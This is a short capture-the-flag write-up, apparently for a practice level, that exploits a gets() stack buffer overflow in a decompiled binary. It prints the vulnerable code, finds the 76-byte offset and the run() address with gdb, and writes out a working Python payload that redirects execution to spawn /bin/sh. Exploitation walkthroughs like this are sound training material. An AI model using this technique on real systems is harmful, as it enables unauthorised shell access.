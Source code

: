 As always, we decompiled the binary.
```c
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}

void main(void)

{
  char local_50 [76];

  gets(local_50);
  return;
}
```
We can see a main function with a buffer (76 char long) and a gets function (which is unsafe for buffer overflow).

Already a hint.

Looking through the binary we found a function "left" in the code, run().
It prints a string and then use `system("/bin/sh");` which would spawn a shell.

Exactly what we want to do.

So we have to overflow in order to reach this function.

Here is how :
First we go to https://wiremask.eu/tools/buffer-overflow-pattern-generator/ and get the buffer overflow pattern.
Then we input it in the code so that we can find the offset of the address.
We find that it is 76. Exactly the length of our buffer.

So now we have to find the address of the function run() and put it at the end of our input.

```
(gdb) info address run
Symbol "run" is at 0x8048444 in a file compiled without debugging.
```

So our payload will look something like : [ padding ] + [ addr of run() ] :

`(python -c 'print("\x90" * 76 + "\x44\x84\x04\x08")'; cat) | ./level1`

Here we are.
